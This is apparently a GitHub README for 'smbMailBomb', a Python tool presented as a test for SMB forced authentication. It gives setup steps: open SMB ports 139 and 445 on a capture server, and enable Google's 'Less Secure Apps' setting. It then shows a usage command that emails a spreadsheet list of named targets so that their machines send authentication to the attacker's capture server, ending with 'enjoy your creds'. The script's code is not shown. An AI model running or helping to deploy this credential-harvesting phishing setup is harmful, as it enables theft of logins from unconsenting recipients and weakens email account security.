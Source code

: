 # smbMailBomb
A command line utility to test for SMB Forced Authentication

#### Set Up Capture Server:
Ensure SMB ports 139 and 445 are open on your captuer server
Run your capture server.
#### Configure Google to allow the script:
  In the Google Admin Panel:
  Click Security
  Enable Less Secure Apps
In the google account settings
  Click Security
  Allow Less Secure Apps
#### From the command line run smbMailBomb.py and enjoy your creds: 
Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
  -f path to target xlsx file
  -e your google business email
  -p your google password
  -ip your capture server IP
#### Requirments:
 pip install -r requirments.txt
#### XLSX:
Add your targets first name and email, following the template provided.
